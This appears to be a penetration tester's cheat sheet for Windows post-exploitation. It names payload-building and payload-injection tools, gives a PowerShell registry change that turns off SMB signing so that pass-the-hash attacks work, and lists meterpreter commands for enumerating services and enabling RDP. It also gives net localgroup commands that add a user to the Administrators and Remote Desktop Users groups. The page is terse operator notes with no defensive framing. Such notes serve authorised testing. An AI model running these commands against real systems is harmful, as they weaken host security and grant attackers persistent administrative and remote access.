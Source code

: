 Framework to create payloads: msfvenom

Frameworks to inject payloads

[BDF](https://github.com/secretsquirrel/the-backdoor-factory) Linux:

[Shellter](https://www.shellterproject.com/introducing-shellter/) Windows:

Changing registry values to be able to pass the hash on local admin accounts that get a status_access_denied error
PowerShell:

Set-ItemProperty -Path HKLM:\System\CurrentControlSet\Services\LanManServer\Parameters -Name RequireSecuritySignature -Value 0 -Type DWord


![image](https://user-images.githubusercontent.com/1501624/209717607-47f528b6-a7c4-4b55-b643-66b56fc2fe64.png)


Command Line

![image](https://user-images.githubusercontent.com/1501624/209717640-b4d6610a-9e88-4f1a-8f59-a14a266bd835.png)


Check services on windows using wmic 

`wmic service where 'Caption like "Remote%" and started=true' get Caption`

Enumerate services:

(meterpreter)

`run service_manager -l`

(meterpreter)

`run post/windows/gather/enum_services`

Enable RDP

(meterpreter)

` run getgui -e`

Windows add user to "Remote Desktop Users" group

`net localgroup "Remote Desktop Users" <username> /add`

Windowows: enumerate groups

`net` [[Built-in Groups]](https://ss64.com/nt/syntax-security_groups.html)

Windows enumerate users in group
`net localgroup "Administrators"`

Windows add user to Administrators

`net localgroup "Administrators" <user> /add`




